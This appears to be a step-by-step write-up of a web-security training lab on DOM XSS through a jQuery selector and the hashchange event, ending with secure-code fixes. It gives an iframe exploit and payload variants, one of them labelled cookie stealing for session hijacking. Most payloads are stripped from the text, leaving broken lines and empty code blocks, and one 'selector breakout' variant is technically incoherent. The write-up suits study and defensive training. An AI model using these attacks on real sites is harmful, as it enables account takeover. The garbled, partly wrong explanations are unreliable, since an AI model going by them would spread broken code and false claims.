

---

**Difficulty:** 🟢 Apprentice

**Goal:**

- 🔍 Identify DOM XSS vulnerability in jQuery selector with hashchange event
- 🎯 Understand jQuery `$()` selector sink with `location.hash` source
- 💉 Exploit selector injection to execute JavaScript
- 🎪 Deliver exploit via iframe with auto-triggering hashchange
- 🚨 Execute `print()` function to solve lab
- 🎉 Complete lab successfully

---

## 🧠 **Concept Recap**

> **DOM XSS in jQuery selector with hashchange** occurs when jQuery's `$()` selector function processes attacker-controlled data from `location.hash` (URL fragment). By injecting HTML with event handlers into the selector, attackers can execute arbitrary JavaScript. The hashchange event automatically triggers when the URL fragment changes, making the exploit completely automatic without requiring user interaction.

### 📊 **The Vulnerability**

**Normal Hashchange Functionality:**

```HTTP
User navigates to page with hash:
URL: /page#section1
         ↓
hashchange event fires
         ↓
jQuery selector: $('#section1')
         ↓
Scrolls to section1 element ✓
```

**XSS Attack using selector injection:**

```js
Attacker crafts malicious hash:
URL: /page#

hashchange event fires (automatic!)
         ↓
jQuery processes:
$(window).on('hashchange', function() {
    var hash = location.hash;
    $('hash')  // Vulnerable selector!
});
         ↓
jQuery selector becomes:
$('#')
         ↓
jQuery parses as HTML (not just selector!)
         ↓
Creates  element
         ↓
Image fails to load
         ↓
onerror handler triggers! 💥
         ↓
print() function executes! 🎯
```

**Key Insight:**

```HTML
Why jQuery selector injection is dangerous:

1. jQuery $() dual behavior:
   └── Can select existing elements: $('#myDiv')
   └── Can create NEW elements: $('<div>New</div>')
       └── If string starts with <, jQuery creates HTML!
           └── This is the vulnerability! 💣

2. location.hash as source:
   └── Attacker controls URL fragment (#...)
       └── No server involvement
           └── Fragment never sent to server!
               └── Pure client-side attack

3. hashchange event auto-triggers:
   └── No user interaction needed!
       └── Just loading URL triggers event
           └── Or iframe can trigger it programmatically
               └── Completely automatic XSS! 🔥

4. jQuery selector parsing rules:
   ├── $('#id') → Selects element with ID
   ├── $('.class') → Selects by class
   ├── $('tag') → Selects by tag name
   └── $('<tag>') → CREATES new HTML element! ⚠️

The vulnerability chain:
└── URL fragment contains malicious HTML
    └── hashchange event triggers automatically
        └── jQuery selector processes location.hash
            └── jQuery sees < character
                └── Parses as HTML creation (not selection)
                    └── Creates element with event handler
                        └── Event fires automatically
                            └── XSS achieved! 💣
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Access Lab**

1. 🌐 Click **"Access the lab"**
2. 👀 Observe the homepage
3. 📝 Note: This lab requires exploit server

**Homepage layout:**

```
┌────────────────────────────────────┐
│ Blog Website                       │
├────────────────────────────────────┤
│                                    │
│ Recent Posts:                      │
│ ├── Post 1                         │
│ ├── Post 2                         │
│ └── Post 3                         │
│                                    │
└────────────────────────────────────┘
```

**Lab description notes:**

```
Lab requirements:
├── Exploit uses hashchange event
├── Must call print() function
├── Requires exploit server delivery
└── Victim will visit your exploit page
```

---

### 📄 **Step 2 — View Page Source**

1. 🖱️ Right-click on homepage
2. 📋 Select **"View Page Source"** (or press `Ctrl+U` / `Cmd+U`)
3. 🔍 Search for JavaScript code with "hashchange"

**Look for code like this:**

```js
<!DOCTYPE html>
<html>
<head>
    <title>Blog</title>
    <script src="/resources/js/jquery_3-7-1.js"></script>
</head>
<body>
    <h1>Home</h1>
    
    <div id="section1">
        <h2>Section 1</h2>
        <p>Content here...</p>
    </div>
    
    <div id="section2">
        <h2>Section 2</h2>
        <p>More content...</p>
    </div>
    
    <script>
        $(window).on('hashchange', function() {
            var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
            if (post) post.get(0).scrollIntoView();
        });
    </script>
</body>
</html>
```

**Vulnerable code analysis:**

```r
$(window).on('hashchange', function() {
    // SOURCE: Gets hash from URL (after #)
    var hash = decodeURIComponent(window.location.hash.slice(1));
                                   ↑
                         location.hash = attacker-controlled!
    
    // SINK: jQuery selector with user input
    var post = $('section.blog-list h2:contains(' + hash + ')');
                 ↑
         Vulnerable selector construction!
    
    // Scroll to element if found
    if (post) post.get(0).scrollIntoView();
});
```

**The vulnerability:**

```js
Line-by-line breakdown:

1. $(window).on('hashchange', function() { ... });
   └── Registers handler for hashchange event
       └── Event fires when URL fragment (#...) changes
           └── Fires automatically when page loads with hash
               └── Or when hash changes via JavaScript

2. var hash = decodeURIComponent(window.location.hash.slice(1));
   └── window.location.hash = URL fragment (e.g., "#section1")
   └── .slice(1) removes the # character
   └── decodeURIComponent() decodes URL encoding
   └── Source: location.hash (attacker-controlled)

3. var post = $('section.blog-list h2:contains(' + hash + ')');
   └── Builds jQuery selector string with user input
   └── Intended: $('section.blog-list h2:contains(section1)')
   └── Sink: jQuery $() selector
   └── VULNERABLE: No sanitization of hash!

Why it's vulnerable:
├── User controls location.hash
├── Hash concatenated directly into selector
├── jQuery parses selector string
└── If hash contains HTML tags (starts with <)
    └── jQuery creates HTML instead of selecting!
        └── XSS possible! 💣

Attack flow:
URL: /page#
     ↓
hash = ""
     ↓
Selector becomes:
$('section.blog-list h2:contains()')
     ↓
jQuery sees < character
     ↓
Creates HTML: 
     ↓
Image fails to load → onerror fires
     ↓
print() executes! 💥
```

---

### 🧪 **Step 3 — Understand jQuery Selector Behavior**

**jQuery's dual parsing modes:**

```javascript
jQuery $() function behavior:

Mode 1: CSS Selector (most common)
$('#myDiv')           → Selects element with id="myDiv"
$('.myClass')         → Selects elements with class="myClass"
$('div')              → Selects all <div> elements
$('div.myClass')      → Selects divs with class="myClass"

Mode 2: HTML Creation (the vulnerability!)
$('<div>')            → Creates new <div> element
$('')      → Creates new  element
$('<script>code</script>') → Creates <script> (but doesn't execute)
$('') → Creates , onerror DOES execute!

How jQuery decides which mode:
├── If string starts with '<'
│   └── HTML creation mode
│       └── Parses as HTML, creates DOM nodes
└── Otherwise
    └── CSS selector mode
        └── Queries existing DOM

The vulnerability:
└── When user input starts with 
    └── jQuery switches to HTML creation
        └── Attacker can inject HTML with event handlers! 💣
```

**Example vulnerable patterns:**

```r
// ❌ VULNERABLE - Direct concatenation
var userInput = location.hash.slice(1);
$(userInput);  // If userInput = ""

// ❌ VULNERABLE - String concatenation in selector
$('div:contains(' + userInput + ')');

// ❌ VULNERABLE - Attribute selector
$('div[data-id="' + userInput + '"]');

// ✅ SAFE - Using .find() with sanitized selector
var container = $('#container');
container.find(safeSelector);

// ✅ SAFE - Using data attributes
var id = sanitize(userInput);
$('[data-id="' + id + '"]');  // If sanitize() removes 
```

---

### 🎯 **Step 4 — Test Hashchange Event**

**Test that hashchange event works:**

1. 🌐 Navigate to lab URL
2. ✏️ Add a simple hash:

```
https://YOUR-LAB-ID.web-security-academy.net/#test
```

3. 🚀 Press Enter
4. 👀 Open browser console (F12)
5. 📝 Type:

```javascript
$(window).trigger('hashchange');
```

**Expected behavior:**

```
hashchange event triggered
        ↓
jQuery processes hash value
        ↓
Selector executed
        ↓
If no matching element exists → runtime error
        ↓
Error does NOT indicate protection
```

---

### 💉 **Step 5 — Construct XSS Payload**

**Understanding the payload requirements:**

```js
Lab requirement:
└── Must call print() function
    └── Opens browser print dialog

Payload structure:


Breaking it down:
├──               → Image element
├── src=x              → Invalid source (triggers error)
├── onerror=           → Event handler for load failures
└── print()            → JavaScript function to call

Why this works in jQuery selector:
1. Hash: #
   └── location.hash.slice(1) = ""

2. Concatenated into selector:
   └── $('section.blog-list h2:contains()')

3. jQuery sees < at start
   └── Switches to HTML creation mode

4. Creates: 
   └── Element inserted into DOM

5. Image fails to load (src=x invalid)
   └── onerror handler fires

6. print() executes! 💥
```

**Final payload:**

```html

```

**URL encoding for hash:**

```HTML
Raw payload:


In URL (after #):
#

URL becomes:
https://YOUR-LAB-ID.web-security-academy.net/#

Note: Browser may auto-encode some characters
< → %3C
> → %3E
This is normal and expected!
```

---

### 🔄 **Step 6 — Test Manual Hashchange**

**Before creating exploit, test manually:**

1. 🌐 Navigate to:

```HTML
https://YOUR-LAB-ID.web-security-academy.net/#
```

2. 🚀 Press Enter
3. 👀 Observe behavior

**Expected result:**

```
Page loads with hash
         ↓
hashchange event may or may not fire on initial load
         ↓
If it fires:
├── print() dialog appears ✓
└── XSS confirmed!

If it doesn't fire:
└── hashchange only fires on CHANGE
    └── Need to trigger it programmatically
        └── This is why we need iframe exploit! 🎯
```

**hashchange event quirk:**

```js
hashchange event fires when:
├── Hash changes from one value to another
├── NOT always on initial page load
└── Behavior varies by browser

Example:
1. Load: /page (no hash)
   └── No hashchange event

2. Load: /page#section1
   └── hashchange may or may not fire

3. Navigate: /page → /page#section1
   └── hashchange ALWAYS fires ✓

4. JavaScript: location.hash = 'new'
   └── hashchange ALWAYS fires ✓

For reliable exploit:
└── Use iframe to control hash changes
    └── Set hash programmatically
        └── Guarantees hashchange event! ✓
```

---

### 🎪 **Step 7 — Create Exploit Server Page**

**Access exploit server:**

1. 🌐 Click **"Go to exploit server"** button
2. 📝 You'll see an exploit server interface

**Exploit server interface:**

```
┌────────────────────────────────────┐
│ Exploit Server                     │
├────────────────────────────────────┤
│                                    │
│ Body:                              │
│ [____________________________]     │
│ [____________________________]     │
│                                    │
│ [Store] [View exploit]             │
│ [Deliver exploit to victim]        │
└────────────────────────────────────┘
```

---

### 💻 **Step 8 — Write Exploit Code**

**In the "Body" field, enter:**

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+=''"></iframe>
```

**Replace YOUR-LAB-ID with actual lab ID!**

**Understanding the exploit:**

```js
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" 
        onload="this.src+=''">
</iframe>

Breaking it down:

1. <iframe src=".../#">
   └── Loads vulnerable page in iframe
   └── Initial hash is empty (#)

2. onload="..."
   └── Executes when iframe finishes loading
   └── this.src refers to iframe's current URL

3. this.src+=''
   └── Appends payload to URL
   └── Changes hash from # to #
   └── Hash CHANGE triggers hashchange event!

How it works:
├── Step 1: iframe loads with src=".../#"
│   └── Page loads, no hashchange yet
│
├── Step 2: onload handler fires
│   └── Adds payload to URL
│   └── URL changes: /# → /#
│
├── Step 3: Hash change detected!
│   └── hashchange event fires
│
├── Step 4: jQuery processes new hash
│   └── Creates  with onerror handler
│
└── Step 5: print() executes! 💥

Why this is better than direct URL:
└── Guarantees hashchange event fires
    └── Change from # to #payload
        └── Always triggers the event! ✓
```

---

### 📝 **Step 9 — Complete Exploit Code**

**Full exploit server body:**

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+=''"></iframe>
```

**Important notes:**

```
✅ Must include initial # in iframe src
✅ Must use += to append payload
✅ Must use YOUR actual lab ID
✅ onload triggers automatically
✅ No user interaction required!

Common mistakes:
❌ Forgetting initial # in src
❌ Using = instead of +=
❌ Wrong lab ID
❌ Missing quotes
```

---

### 🧪 **Step 10 — Test Exploit**

1. 💾 Click **"Store"** to save exploit
2. 👁️ Click **"View exploit"**

**Expected behavior:**

```js
Exploit page loads
         ↓
iframe loads vulnerable page
         ↓
onload handler fires
         ↓
Appends payload to iframe URL
         ↓
hashchange event triggers in iframe
         ↓
jQuery creates  element
         ↓
onerror handler fires
         ↓
print() dialog appears! 💥
```

**Print dialog appears:**

```
┌────────────────────────────────────┐
│ Print                              │
├────────────────────────────────────┤
│                                    │
│ Destination: [Save as PDF ▼]       │
│                                    │
│ Pages: ● All                       │
│        ○ Custom                    │
│                                    │
│ [Cancel]  [Print]                  │
└────────────────────────────────────┘
         ↑
    XSS successful! ✓
```

3. ✅ If print dialog appears, exploit works!
4. ❌ If not, check:
    - Correct lab ID
    - Proper syntax
    - Browser console for errors

---

### 🚀 **Step 11 — Deliver Exploit to Victim**

1. 🔙 Go back to exploit server
2. 🎯 Click **"Deliver exploit to victim"**

**What happens:**

```js
Exploit delivery:
         ↓
Simulated victim visits your exploit server
         ↓
Loads your malicious page
         ↓
iframe loads vulnerable site
         ↓
onload triggers hashchange
         ↓
XSS executes automatically
         ↓
print() called
         ↓
Lab checks for print() execution
         ↓
Lab solved! 🎉
```

---

### ✅ **Step 12 — Lab Completion**

**Success indicators:**

```
Lab completion banner:
┌─────────────────────────────────────┐
│  ✅ Congratulations!                │
│                                     │
│  You successfully exploited a       │
│  DOM XSS vulnerability in jQuery    │
│  selector with hashchange event.    │
│                                     │
│  Lab: DOM XSS in jQuery selector    │
│       sink using a hashchange event │
│  Status: SOLVED ✓                   │
└─────────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```js
Step 1: Access lab and view source
         ↓
Step 2: Find hashchange event handler
         → $(window).on('hashchange', ...)
         ↓
Step 3: Identify vulnerable selector
         → $('section.blog-list h2:contains(' + hash + ')')
         → User input directly in selector string
         ↓
Step 4: Understand jQuery HTML creation
         → $() creates HTML if string starts with 
         ↓
Step 5: Craft XSS payload
         → 
         ↓
Step 6: Understand hashchange requirement
         → Event fires on hash CHANGE
         → Need to trigger programmatically
         ↓
Step 7: Access exploit server
         ↓
Step 8: Create iframe exploit
         → <iframe src=".../#" onload="this.src+='payload'">
         ↓
Step 9: Store exploit on server
         ↓
Step 10: Test exploit
         → View exploit → print() dialog appears ✓
         ↓
Step 11: Deliver to victim
         → Click "Deliver exploit to victim"
         ↓
Step 12: Victim's browser executes XSS
         → print() called automatically
         ↓
Step 13: Lab solved! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **jQuery Selector Injection**

```javascript
jQuery selector injection vulnerability:

Normal usage:
var id = 'section1';
var element = $('#' + id);  // Safe if id is trusted

Vulnerable usage:
var userInput = location.hash.slice(1);
var element = $(userInput);  // DANGEROUS!

Why it's dangerous:
└── jQuery $() has two modes:
    ├── CSS selector mode: $('#id'), $('.class')
    └── HTML creation mode: $('<tag>')
        └── Decided by first character!

Attack vector:
└── If userInput starts with 
    └── jQuery creates HTML
        └── HTML can contain event handlers
            └── Event handlers execute! 💣

Example attack:
userInput = ""
$(userInput)  // Creates img element, onerror fires!
```

---

### **The Vulnerable Code Pattern**

```javascript
// ❌ VULNERABLE CODE

$(window).on('hashchange', function() {
    // Get hash from URL
    var hash = decodeURIComponent(window.location.hash.slice(1));
    
    // Build selector with user input - NO SANITIZATION!
    var post = $('section.blog-list h2:contains(' + hash + ')');
    
    // Scroll to element
    if (post) post.get(0).scrollIntoView();
});

Problems:
1. Source: location.hash (attacker-controlled)
2. No validation of hash value
3. Direct concatenation into selector string
4. jQuery parses as HTML if hash starts with 
5. Event handlers in HTML execute
6. Automatic trigger via hashchange event

Attack flow:
URL: /#
     ↓
hash = ""
     ↓
Selector string:
$('section.blog-list h2:contains()')
     ↓
jQuery sees < character
     ↓
HTML creation mode activated
     ↓
Creates: 
     ↓
Image load fails → onerror fires
     ↓
print() executes! 💥

Why developer didn't see this:
└── Expected hash to be section names
    └── Like: #section1, #introduction
        └── Never considered HTML injection
            └── Trusted user input from URL! ⚠️
```

---

### **hashchange Event Details**

```javascript
hashchange event characteristics:

What is it:
└── Browser event that fires when URL fragment changes
    └── Fragment = everything after # in URL

When it fires:
├── User clicks link with different hash
├── JavaScript sets location.hash
├── Browser back/forward with hash change
└── NOT always on initial page load!

Example:
// Fires hashchange:
location.hash = 'section1';
location.hash = 'section2';  ← hashchange fires!

// May not fire hashchange:
Navigate to: /page#section1  ← Depends on browser

Event handler:
window.addEventListener('hashchange', function(e) {
    console.log('Hash changed!');
    console.log('New hash:', location.hash);
});

jQuery version:
$(window).on('hashchange', function() {
    // Handle hash change
});

Why it's useful for attacks:
└── Automatic trigger mechanism
    ├── No user interaction needed
    ├── iframe can trigger it programmatically
    └── Change hash via JavaScript = guaranteed event! ✓

Security implications:
└── If hashchange handler processes untrusted data
    └── Attacker can trigger code execution
        └── Just by controlling URL fragment
            └── No server involvement needed! 💣
```

---

### **location.hash as Source**

```javascript
What is location.hash:

Property of window.location:
└── Contains URL fragment (after #)

Example:
URL: https://example.com/page#section1
location.hash = "#section1"

Accessing hash value:
var hash = location.hash;           // "#section1" (includes #)
var hashValue = location.hash.slice(1);  // "section1" (removes #)

Why it's attacker-controlled:
└── User can modify URL directly
    ├── Type in address bar
    ├── Click malicious link
    └── JavaScript in iframe
        └── All modify hash without server!

Important characteristic:
└── Fragment NEVER sent to server!
    ├── Only exists client-side
    ├── Server logs don't show it
    └── Server-side filters can't block it
        └── Pure client-side attack vector! 🎯

Common vulnerable patterns:
├── Routing: #/profile/user123
├── Tabs: #tab1, #tab2
├── Sections: #introduction, #conclusion
└── Any hash-based functionality!

Developer misconception:
└── "Hash is just for navigation"
    └── "It's safe, it doesn't leave browser"
        └── WRONG! Attacker controls it!
            └── Can inject malicious content! ⚠️
```

---

### **iframe Exploit Technique**

```js
Why use iframe for exploit delivery:

The exploit:
<iframe src="https://vulnerable.com/#" 
        onload="this.src+=''">
</iframe>

Execution flow:
1. Exploit page loads
   └── Contains iframe element

2. iframe loads vulnerable page
   └── src="https://vulnerable.com/#"
   └── Page loads with empty hash

3. onload handler fires
   └── When iframe finishes loading
   └── Runs: this.src += ''

4. iframe src changes
   └── From: https://vulnerable.com/#
   └── To:   https://vulnerable.com/#

5. Hash change detected!
   └── hashchange event fires in iframe
   └── Because hash went from "" to "payload"

6. Vulnerable code processes new hash
   └── jQuery creates HTML
   └── XSS executes!

Why this technique works:
✅ Guarantees hashchange event fires
✅ No user interaction needed
✅ Automatic execution
✅ Works across browsers
✅ iframe isolates exploit from main page

Alternative approaches (less reliable):
❌ Direct URL: https://vulnerable.com/#payload
   └── hashchange may not fire on initial load

❌ JavaScript redirect: location.href = "...#payload"
   └── Requires user already on attack page

✅ iframe is most reliable for lab! 
```

---

## 🚀 **Attack Variations**

### **Variation 1: Cookie Stealing**

```html
Payload:


Exploit:
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" 
        onload="this.src+=''">
</iframe>

Purpose:
└── Exfiltrates victim's cookies
    └── Session hijacking possible! 💀
```

---

### **Variation 2: Multiple Actions**

```html
Payload:


Exploit:
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" 
        onload="this.src+=''">
</iframe>

Purpose:
└── Chains multiple actions
    ├── Shows domain
    └── Calls print()
```

---

### **Variation 3: SVG-based XSS**

```html
Payload:
<svg onload=print()>

Exploit:
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" 
        onload="this.src+='<svg onload=print()>'">
</iframe>

Purpose:
└── Alternative vector using SVG
    ├── Shorter payload
    └── Executes on element creation
```

---

### **Variation 4: Delayed Execution**

```html
Payload:


Exploit:
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" 
        onload="this.src+=''">
</iframe>

Purpose:
└── Delays execution by 1 second
    └── Can bypass timing-based defenses
```

---

### **Variation 5: iframe srcdoc**

```html
Payload:
<iframe srcdoc="<script>parent.print()</script>">

Note:
⚠️ May not work in all contexts
⚠️ Depends on jQuery version
✅ img onerror more reliable
```

---

### **Variation 6: Breaking Out of Selector**

```html
If vulnerable code is:
$('div[data-id="' + hash + '"]')

Payload:
"]; var x = $(''); //

Result:
$('div[data-id=""]; var x = $(''); //"]')
                   ↑
         Breaks out and injects code!
```

---

### **Variation 7: Using alert Instead of print**

```html
If print() doesn't work (some contexts):

Payload:


Exploit:
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" 
        onload="this.src+=''">
</iframe>
```

---
---

## 🛡️ **How to Fix (Secure Code)**

---

### **Fix 1: Sanitize Hash Before Using in Selector**

```javascript
// ✅ SECURE - Sanitize user input

$(window).on('hashchange', function() {
    var hash = decodeURIComponent(window.location.hash.slice(1));
    
    // Remove dangerous characters
    hash = hash.replace(/[^a-zA-Z0-9_-]/g, '');
    
    // Now safe to use in selector
    if (hash) {
        var post = $('section.blog-list h2:contains(' + hash + ')');
        if (post.length) post.get(0).scrollIntoView();
    }
});

// Benefits:
// ✅ Whitelist allowed characters
// ✅ Removes <, >, quotes, etc.
// ✅ Cannot inject HTML
// ✅ Simple and effective
```

---

### **Fix 2: Use CSS.escape() for Proper Escaping**

```javascript
// ✅ SECURE - Use CSS.escape()

$(window).on('hashchange', function() {
    var hash = window.location.hash.slice(1);
    
    if (hash) {
        // Properly escape for use in CSS selector
        var escaped = CSS.escape(decodeURIComponent(hash));
        
        var post = $('section.blog-list h2:contains(' + escaped + ')');
        if (post.length) post.get(0).scrollIntoView();
    }
});

// Benefits:
// ✅ Standards-compliant escaping
// ✅ Handles all special characters
// ✅ Designed for CSS selectors
// ✅ Browser native function
```

---

### **Fix 3: Avoid String Concatenation in Selectors**

```javascript
// ✅ SECURE - Use .filter() instead of selector string

$(window).on('hashchange', function() {
    var hash = decodeURIComponent(window.location.hash.slice(1));
    
    if (hash) {
        // Select all h2 elements first
        var posts = $('section.blog-list h2');
        
        // Filter using JavaScript (not selector)
        var post = posts.filter(function() {
            return $(this).text() === hash;
        });
        
        if (post.length) post.get(0).scrollIntoView();
    }
});

// Benefits:
// ✅ No string concatenation in selector
// ✅ Uses JavaScript comparison
// ✅ Cannot inject HTML
// ✅ More control over matching
```

---

### **Fix 4: Use Data Attributes Instead of Hash**

```javascript
// ✅ SECURE - Don't use hash for navigation

// Use data attributes in HTML:
// <h2 data-section="section1">Title</h2>

$(window).on('hashchange', function() {
    var hash = window.location.hash.slice(1);
    
    // Validate against whitelist
    var allowedSections = ['section1', 'section2', 'section3'];
    
    if (allowedSections.includes(hash)) {
        // Use attribute selector with known-safe value
        var post = $('[data-section="' + hash + '"]');
        if (post.length) post.get(0).scrollIntoView();
    }
});

// Benefits:
// ✅ Whitelist approach
// ✅ Limited to predefined sections
// ✅ No arbitrary user input
// ✅ Explicit validation
```

---

### **Fix 5: Use getElementById Instead of jQuery**

```javascript
// ✅ SECURE - Use native DOM methods

window.addEventListener('hashchange', function() {
    var hash = location.hash.slice(1);
    
    // Validate it's a valid ID format
    if (/^[a-zA-Z][\w-]*$/.test(hash)) {
        var element = document.getElementById(hash);
        if (element) {
            element.scrollIntoView();
        }
    }
});

// Benefits:
// ✅ No jQuery selector parsing
// ✅ getElementById only accepts string
// ✅ Cannot create HTML
// ✅ Native browser API (safe)
```

---

### **Fix 6: Implement Content Security Policy**

```html
<!-- ✅ SECURE - Add CSP to prevent inline scripts -->

<meta http-equiv="Content-Security-Policy" 
      content="default-src 'self'; 
               script-src 'self'; 
               img-src 'self' data:;">

<!-- Benefits:
✅ Blocks inline event handlers (onerror, onload, etc.)
✅ Even if XSS exists, code won't execute
✅ Defense in depth
✅ Additional security layer

Note: This blocks onerror handlers completely!
-->
```

---

### **Fix 7: Remove hashchange Handler**

```javascript
// ✅ SECURE - Use different approach entirely

// Instead of hashchange, use IntersectionObserver for scrolling
// Or use manual navigation with click handlers
// Or server-side routing

// Remove vulnerable pattern entirely:
// ❌ $(window).on('hashchange', ...)

// Benefits:
// ✅ Eliminates attack surface
// ✅ No hash processing needed
// ✅ More modern approach
// ✅ Better user experience
```

---
